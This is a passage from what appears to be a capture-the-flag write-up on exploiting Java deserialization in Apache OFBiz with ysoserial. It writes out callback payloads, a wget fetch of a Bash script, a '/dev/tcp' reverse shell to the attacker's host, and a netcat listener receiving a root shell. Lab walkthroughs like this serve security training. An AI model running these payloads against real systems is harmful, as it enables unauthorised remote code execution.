      </params>
    </methodCall>
    

Then, for each Payload to try, I can run `ysoserial CommonsCollections5 'ping -c 1 10.10.14.7' | base64 -w 0` and paste that into the `<serializable>` tag and submit, and watch `tcpdump` for a ping.

None of the `CommonsCollections` worked, but `CommonsBeanutils1` did!

#### Check for wget/curl

I’ve had really bad luck with complicated commands like reverse shells via
Java deserialization. I’d much rather upload a Bash script and then run it.
For that, I’ll want to see if `wget` or `curl` can contact my host.

Start with a payload:

    
    
    oxdf@parrot$ ysoserial CommonsBeanutils1 'wget 10.10.14.7' | base64 -w 0
    ...[snip]...
    

Start Python webserver, and send the payload from Burp. The webserver gets a
hit:

    
    
    oxdf@parrot$ python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.238 - - [23/Apr/2021 08:42:30] "GET / HTTP/1.1" 200 -
    

#### Reverse Shell

I’ll use two payloads to get a shell. I’ll write `rev.sh`:

    
    
    #!/bin/bash
    
    bash -i >& /dev/tcp/10.10.14.7/443 0>&1
    

First, I’ll upload it to the container with `wget`:

    
    
    oxdf@parrot$ ysoserial CommonsBeanutils1 'wget 10.10.14.7/rev.sh' | base64 -w 0
    

Once that succeeds (I’ll see the 200 at the Python webserver), then I’ll
execute it:

    
    
    oxdf@parrot$ ysoserial CommonsBeanutils1 'bash rev.sh' | base64 -w 0
    

On sending that through Burp, a shell comes back:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [10.10.14.7] from (UNKNOWN) [10.10.10.238] 37802
    bash: cannot set terminal process group (30): Inappropriate ioctl for device
    bash: no job control in this shell
    root@335bd6937366:/usr/src/apache-ofbiz-17.12.01# 
    